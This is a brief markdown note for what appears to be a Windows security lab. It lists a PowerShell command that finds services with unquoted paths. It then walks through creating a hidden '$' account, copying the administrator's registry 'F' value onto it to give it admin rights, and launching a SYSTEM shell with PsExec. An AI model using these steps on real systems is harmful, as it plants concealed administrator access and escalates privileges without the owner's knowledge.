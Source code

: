 # Lab2
---
## Lab 2_1 find the unquoated service
- get-wmiobject win32_service | ?{$_.pathname -match"^`"{0,1}(C|c):*\\.*\s+.*\\.*"} | select Name, Pathname, State, ProcessID
- get-acl

---
## Lab2__2 Hidden account
1. net user goodman$ \<passwd\> /add
1. Export regedit 
    1. sam\domains\account\users\names\goodman$ as name.reg
    1. sam\domains\account\users\\<admimistratorID\> as source.reg
    1. sam\domains\account\users\\<goodman$ID]> as target.reg
1. Delete goodman$ account
1. Copy F=hex value from source.reg to target.reg
1. Import name and target reg
    1. regedit /s \<xxx\>.reg
1. Us PSexec to get system cmd
    1. psexec -u hidden$ -p \<passwd\> cmd
    1. psexec -i-s cmd
